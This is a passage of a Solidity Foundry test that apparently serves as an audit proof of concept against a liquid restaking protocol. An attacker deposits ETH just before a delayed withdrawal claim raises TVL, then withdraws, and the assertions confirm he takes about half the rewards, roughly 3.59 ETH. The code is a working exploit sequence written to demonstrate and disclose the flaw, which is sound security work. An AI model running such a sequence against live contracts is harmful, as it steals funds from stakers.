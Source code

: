 ```solidity
        balanceWei: 40 ether,
        withdrawalCreds: abi.encodePacked(withdrawalCredentials)
    });
    
    //-> Verify withdrawal crendetials
    vm.prank(details.manager);
    reETH.operatorRegistry.verifyWithdrawalCredentials(
        operatorId,
        proofs.oracleTimestamp,
        proofs.stateRootProof,
        proofs.validatorIndices,
        proofs.validatorFieldsProofs,
        proofs.validatorFields
    );

    //-> A full withdrawal for the validator is processed, 8ETH (40ETH - 32ETH) will be queued as rewards
    verifyAndProcessWithdrawalsForValidatorIndexes(address(operatorDelegator), validatorIndices);

    //-> Bob, an attacker, does the following:
    //      1. Deposits 40ETH and receives ~40e18 LRTTokens
    //      2. Cliam the withdrawal for the validator, which will instantly increase the TVL by ~7.2ETH
    //      3. Requests a withdrawal with all of the LRTTokens 
    {
        //1. Deposits 40ETH and receives ~40e18 LRTTokens
        vm.startPrank(bob);
        reETH.coordinator.depositETH{value: bobInitialBalance}();

        //2. Cliam the withdrawal for the validator, which will instantly increase the TVL by ~7.2ETH
        uint256 TVLBefore = reETH.assetRegistry.getTVL();
        delayedWithdrawalRouter.claimDelayedWithdrawals(address(operatorDelegator), 1); 
        uint256 TVLAfter = reETH.assetRegistry.getTVL();

        //->TVL increased by 7.2ETH
        assertEq(TVLAfter - TVLBefore, 7.2e18);

        //3. Requests a withdrawal with all of the LRTTokens 
        reETH.coordinator.requestWithdrawal(ETH_ADDRESS, reETH.token.balanceOf(bob));
        vm.stopPrank();
    }
    
    //-> Wait and rebalance
    skip(reETH.coordinator.rebalanceDelay());
    vm.prank(EOA, EOA);
    reETH.coordinator.rebalance(ETH_ADDRESS);

    //-> Bob withdraws the funds he requested
    vm.prank(bob);
    reETH.withdrawalQueue.claimWithdrawalsForEpoch(IRioLRTWithdrawalQueue.ClaimRequest({asset: ETH_ADDRESS, epoch: 0}));

    //-> Bob has stole ~50% of the rewards and has 3.59ETH more than he initially started with
    assertGt(bob.balance, bobInitialBalance);
    assertEq(bob.balance - bobInitialBalance, 3599550056000000000);
}
```
